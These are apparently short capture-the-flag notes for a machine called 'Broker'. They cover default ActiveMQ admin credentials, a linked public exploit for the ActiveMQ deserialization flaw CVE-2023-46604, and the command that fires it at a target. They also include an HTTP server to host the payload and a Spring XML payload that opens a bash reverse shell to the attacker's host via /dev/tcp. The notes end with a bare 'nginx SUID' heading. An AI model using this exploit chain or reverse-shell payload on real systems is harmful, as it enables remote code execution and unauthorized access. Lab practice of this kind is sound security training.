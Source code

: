 ```yaml
---
layout: default
title: Broker
---
```

Apache ActiveMQ

```
admin \ admin
```

[GitHub - pulentoski/CVE-2023-46604: El script explota una vulnerabilidad de deserialización insegura en Apache ActiveMQ (CVE-2023-46604)](https://github.com/pulentoski/CVE-2023-46604)

```bash
python exploit.py -i 10.10.11.243 -u http://10.10.14.18/poc.xml
```

```bash
python3 -m http.server 80
```

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.18/4444 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

nginx SUID

